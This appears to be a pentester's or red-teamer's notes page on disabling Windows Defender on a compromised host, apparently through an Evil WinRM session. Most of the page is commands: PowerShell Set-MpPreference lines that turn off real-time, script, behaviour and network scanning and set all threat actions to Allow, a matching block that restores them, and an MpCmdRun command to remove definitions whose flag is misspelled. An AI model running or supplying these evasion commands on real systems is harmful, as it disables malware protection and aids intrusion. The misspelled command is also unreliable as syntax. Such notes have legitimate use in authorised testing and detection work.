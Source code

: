 # Disabling Windows Defender
There are a couple of way I do this. the first one is to just shut every thing off. I wuil generally use Evil WinRM for this. This will make registry changes and the changes should be immediate.
```
Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Allow -ErrorAction SilentlyContinue
```
The following will turn it back on.
```
Set-MpPreference -DisableArchiveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Block -ErrorAction SilentlyContinue
```

The other way to do this is to revomve the Definitions File. This should disable Windows Defenders ability to detect anything.

```
run -c "C:\Program Files\Windows Defender\MpCmdRun.exe -RevoveDefinitions"
```
